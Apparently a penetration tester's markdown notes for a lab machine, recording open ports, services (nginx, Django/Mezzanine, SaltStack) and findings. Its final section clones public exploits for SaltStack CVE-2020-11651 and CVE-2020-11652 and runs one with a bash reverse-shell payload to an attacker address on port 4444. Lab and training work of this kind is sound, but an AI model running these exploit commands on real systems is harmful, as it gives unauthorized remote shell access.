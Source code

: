## Intel

IP: 192.168.248.62
OS:
Arch:
Hostname:
DNS:
Domain: 
Domain SID:
Machine Purpose:
Services: 22,53,80, 4505-6?, 8000
Service Languages:
Email Address & Formatting:
Username Format:

Report writing help
```
ls -1 Screenshots | awk '{print"![]("$1")"}'
```


## Objectives
What do have in the solutions inventory to meet large network objective?

## Solution Inventory Map
Section to solve 

#### 53 

NLnet Labs NSD
- no domain name?
#### 80
/admin/ 
django + nginx 1.16.1 both 80+8000
mezzanine 

8000:
- httponly flag not set login
## Data 

#### Credentials

#### Intel

#### Local Inventory

#### Todo

```
/etc/nginx/nginx.conf
```

```
http://192.168.141.62/admin/login/?next=/admin/




/password_reset/
```

/blog/feed/atom and rss versions
#### Done


```bash
git clone https://github.com/stark0de/nginxpwner.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```



```
git clone https://github.com/dozernz/cve-2020-11651.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt

python3 CVE-2020-11651.py 192.168.242.62 master '/bin/bash -i >& /dev/tcp/192.168.45.191/4444 0>&1'
```


```
git clone https://github.com/Al1ex/CVE-2020-11652.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
python3 CVE-2020-11652.py 
```
